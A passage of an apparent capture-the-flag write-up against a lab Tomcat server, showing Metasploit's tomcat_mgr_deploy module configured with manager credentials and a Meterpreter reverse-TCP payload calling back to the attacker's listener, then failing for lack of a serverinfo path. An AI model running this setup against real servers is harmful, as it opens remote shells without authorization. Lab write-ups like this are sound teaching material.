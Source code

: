 ```yaml
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I used the Manager Deploy Module.

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > options

Module options (exploit/multi/http/tomcat_mgr_deploy):

   Name          Current Setting      Required  Description
   ----          ---------------      --------  -----------
   HttpPassword  $3cureP4s5w0rd123!   no        The password for the specified username
   HttpUsername  tomcat               no        The username to authenticate as
   PATH          /host-manager  yes       The URI path of the manager app (/deploy and /undeploy will be used)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.10.194         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:[path](path)'
   RPORT         8080                 yes       The target port (TCP)
   SSL           false                no        Negotiate SSL/TLS for outgoing connections
   VHOST                              no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > exploit

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Attempting to automatically select a target...
[-] Failed: Error requesting /host-manager/serverinfo
[-] Exploit aborted due to failure: no-target: Unable to automatically select a target
[*] Exploit completed, but no session was created.
```

It looking for `serverinfo` file which is missing.

I google about its location and found it.
